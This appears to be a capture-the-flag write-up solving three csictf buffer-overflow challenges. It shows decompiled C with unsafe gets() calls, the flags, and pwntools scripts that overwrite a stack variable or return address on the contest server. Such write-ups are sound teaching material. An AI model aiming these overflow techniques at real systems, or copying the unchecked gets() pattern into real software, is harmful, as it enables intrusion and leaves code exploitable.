




# PWN

## pwn-intended-0x1

nc chall.csivit.com 30001

**FLAG : csictf{y0u_ov3rfl0w3d_th@t_c0ff33_l1ke_@_buff3r}**

I Reversed the file with ghidra .

```c
undefined8 main(void)

{
  char local_38 [44];
  int local_c;

  local_c = 0;
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Please pour me some coffee:");
  gets(local_38);
  puts("\nThanks!\n");
  if (local_c != 0) {
    puts("Oh no, you spilled some coffee on the floor! Use the flag to clean it.");
    system("cat flag.txt");
  }
  return 0;
}

```
we just have to overwrite anything after 44 bytes to get the flag.



## pwn-intended-0x2

nc chall.csivit.com 30007

### FLAG : csictf{c4n_y0u_re4lly_telep0rt?}

I Reversed the code with ghidra

```c

undefined8 main(void)

{
  char local_38 [44];
  int local_c;

  local_c = 0;
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Welcome to csictf! Where are you headed?");
  gets(local_38);
  puts("Safe Journey!");
  if (local_c == -0x35014542) {
    puts("You\'ve reached your destination, here\'s a flag!");
    system("/bin/cat flag.txt");
  }
  return 0;
}
```


local_c is checked for a hex value of 0xcafebabe.
so we just have to write 0xcafebabe after 44 bytes.

```py
#!/usr/bin/env python3

import pwn

r = pwn.remote('chall.csivit.com', 30007)

payload = "A"*44 + '\xbe\xba\xfe\xca'

r.sendline(payload)
r.interactive()
```


## pwn-intended-0x3

nc chall.csivit.com 30013

### FLAG : csictf{ch4lleng1ng_th3_v3ry_l4ws_0f_phys1cs}

Reversed the code with ghidra

got a **main()** and **flag()** function

```c

undefined8 main(void)

{
  char local_28 [32];

  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("Welcome to csictf! Time to teleport again.");
  gets(local_28);
  return 0;
}

```

```c

void flag(void)

{
  puts("Well, that was quick. Here\'s your flag:");
  system("cat flag.txt");
                    /* WARNING: Subroutine does not return */
  exit(0);
}

```

we just have to write the address of the flag function after
32+8 bytes..

```
root@kali:~/ctf/csictf/pwn# echo info functions | gdb ./pwn-intended-0x3 | grep flag
0x00000000004011ce  flag
root@kali:~/ctf/csictf/pwn#
```

```py
>>> import pwn
>>> pwn.p64(0x00000000004011ce)
b'\xce\x11@\x00\x00\x00\x00\x00'
>>>
```

i just wrote a simple script to get the flag
```py
#!/usr/bin/env python3

import pwn

r = pwn.remote('chall.csivit.com', 30013)

payload = "A"*40 + '\xce\x11@\x00\x00\x00\x00\x00'

r.sendline(payload)
r.interactive()
```

